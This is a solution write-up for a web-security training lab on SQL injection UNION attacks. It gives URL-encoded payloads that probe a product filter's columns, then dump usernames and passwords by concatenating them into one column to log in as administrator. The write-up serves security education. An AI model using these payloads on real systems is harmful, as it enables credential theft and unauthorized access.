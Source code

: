 # Lab: SQL injection UNION attack, retrieving multiple values in a single column
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## Solution
This lab shows, that we can concatenate multiple columns of the data type string into one column. First have to check the columns itself again:
```
https://0a2c002e0467b30182a4b1e9009f007c.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,null%20--
https://0a2c002e0467b30182a4b1e9009f007c.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,%27a%27%20--
```

So we now know that we have two columns and only one of them contains text. To still get username and password we can concatinate these columns into one and also use a seperator:
```
https://0a2c002e0467b30182a4b1e9009f007c.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,username%20||%20%27;%27%20||%20password%20from%20users%20--
```

This will create a SQL statement like this:
```sql
SELECT name, description FROM products WHERE category = 'Accessories' UNION SELECT NULL,username || ';' || password FROM users --
```

As expected we get the users:
![Successful UNION attack](images/SQL_injection_UNION_attack_retrieving_multiple_values_in_a_single_column.png)

To solve the lab we have to login on the website as the administrator.
